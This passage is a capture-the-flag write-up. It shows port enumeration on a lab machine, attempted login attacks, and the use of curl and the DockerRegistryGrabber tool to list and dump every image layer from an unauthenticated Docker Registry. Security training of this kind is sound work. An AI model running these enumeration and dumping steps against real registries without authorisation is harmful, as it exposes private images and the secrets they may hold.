 # Claire-r

We have some non-default ports open that means we need to take a look at whats running behind.<br>
I started taking a look at port 8080 where nmap says it's running an http server.<br>
By visiting the url we can see this page:
	
![port 8080](./pic/login.png)
	
I tried a bunch of attacks like sqli, cookie hijacking, bruteforcing and weak passwords but without usernames is almost impossible, so i passed over the next port.<br>
Behind the port 5000 it is a `Docker Registry` api endpoint.<br>
I searched online and found [this article](https://sysdig.com/learn-cloud-native/container-security/what-is-a-docker-registry/) that talks about it.<br>
Then i searched something related to pentest of that port and found [this page](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry).<br>
It showcase some commands to enumerate and audit the Docker Registry service, so i tried a bunch of them:
```bash
curl -s http://10.10.54.207:5000/v2/_catalog
```
output:
```bash
{"repositories":["umbrella/timetracking"]}
```
There is an actual docker image hosted on this service that can be pulled with the `docker pull` command.<br>
We can try to pull down the container info with [this tool](https://github.com/Syzik/DockerRegistryGrabber):
```bash
git clone https://github.com/Syzik/DockerRegistryGrabber.git   #dockergrabber installation
cd DockerRegistryGrabber
python -m pip install -r requirements.txt
```
Once we have it installed we can try to run it against the docker registry endpoint:
```bash
python3 drg.py http://10.10.54.207 --dump_all
```
output:
```bash
[+] umbrella/timetracking
[+] BlobSum found 23
[+] Dumping umbrella/timetracking
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : c9124d8ccff258cf42f1598eae732c3f530bf4cdfbd7c4cd7b235dfae2e0a549
    [+] Downloading : 62c454461c50ff8fb0d1c5d5ad8146203bb4505b30b9c27e6f05461b6d07edcb
    [+] Downloading : 82f3f98b46d4129f725cab6326d0521589d5b75ae0a480256495d216b2cd9216
    [+] Downloading : e5e56a29478cdf60132aa574648135a89299151414b465942a569f2109eefa65
    [+] Downloading : 7fbf137cf91ff826f2b2fddf3a30ea2e3d2e62d17525b708fd76db392e58df62
```